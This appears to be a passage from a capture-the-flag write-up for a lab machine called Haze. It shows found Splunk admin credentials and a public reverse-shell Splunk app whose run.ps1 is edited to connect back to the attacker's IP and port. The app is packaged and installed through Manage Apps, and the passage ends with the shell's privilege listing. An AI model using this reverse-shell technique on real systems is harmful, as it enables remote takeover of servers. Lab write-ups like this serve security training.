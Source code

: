 We get the following credentials.

`admin:Sp1unkadmin@2k24`

Let's use [Reverse Shell Splunk](https://github.com/0xjpuff/reverse_shell_splunk/)

First edit the `run.ps1` file with our ip and listener port.

```powershell
System.Net.Sockets.TCPClient('OUR IP',9001)
```

Then let's follow the instructions and create our `Splunk` archive.

```bash
tar -cvzf reverse_shell_splunk.tgz reverse_shell_splunk
mv reverse_shell_splunk.tgz reverse_shell_splunk.spl
```

We can now login to `Splunk` using the credentials we found, then we have to go to `Manage Apps` from the `Apps` dropdown on the top left.
![Haze-1743294712019.png](/assets/img/img_Haze/Haze-1743294712019.png)

Next we have to `Install App from File`
![Haze-1743294770602.png](/assets/img/img_Haze/Haze-1743294770602.png)

Success! We got a shell!
```powershell
PS C:\Windows\system32> whoami /priv
                                                                                                                                                                                   PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

